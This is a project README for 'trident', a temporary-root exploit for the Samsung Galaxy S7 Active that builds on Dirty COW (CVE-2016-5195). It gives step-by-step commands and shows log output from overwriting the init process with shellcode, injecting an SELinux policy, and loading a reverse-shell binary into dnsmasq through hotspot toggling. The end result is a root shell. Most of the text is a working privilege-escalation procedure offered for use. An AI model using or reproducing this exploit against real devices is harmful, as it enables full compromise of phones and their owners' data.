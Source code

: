 ## trident
Temporary root for the galaxy s7 active. 

## How
 * Clone this project and either 
   * build (run `make`) and place a custom `sepolicy` file in the root of the project, or 
   * `tar xf` the [prebuilt binaries]() in the root of the project.
 * Open a separate terminal window and run `make log` to see logged output.
 * Run `make run` to start the exploit. You should see 
```
[+] stager loading /data/local/tmp/load
[+] stager loaded /data/local/tmp/load. trigger by enabling wifi tethering
sepolicy injection binary loaded into dnsmasq. hit enter when completed.
```
 * On your phone, go to Settings > Connections > Mobile Hotspot and Tethering > Mobile Hotspot and turn it on. At this point, text should start appearing in the `make log` window. Wait until it is done: 
```
I trident : [+] load started
I trident : [+] overwriting init to terminate early
I trident : madvise: 0
I trident : proc: -1178599424
I trident : [+] overwriting init function with shellcode
I trident : madvise: 0
I trident : proc: -764411904
I trident : [+] overwriting init function with a nop
I trident : madvise: 0
I trident : proc: -1178599424
I trident : [+] load done!
```
 * Turn off the mobile hotspot. 
 * Hit enter in the `make run` window to continue: 
```
adb forward tcp:4040 tcp:4040
adb shell /data/local/tmp/stage /data/local/tmp/reverse
[+] stager loading /data/local/tmp/reverse
[+] stager loaded /data/local/tmp/reverse. trigger by enabling wifi tethering
reverse shell binary loaded into dnsmasq. run 'make connect' when completed
```
 * Turn the hotspot on and off again.
 * run `make connect`

You should now have a root shell! If any permissions issues come up, modify the sepolicy file with sepolicy-inject and upload the new version to `/data/local/tmp/sepolicy`. The new version should be loaded in a few seconds. These problems are easiest to debug with the command `adb logcat | grep -a avc`.

## Versions
This code has only been tested for the Galaxy S7 Active on the September security patch. To make this work on other versions, `INIT_OFFSET` in `farm.c` may need to be modified.

## Thanks
 * https://github.com/timwr/CVE-2016-5195
 * https://bitbucket.org/joshua_brindle/sepolicy-inject
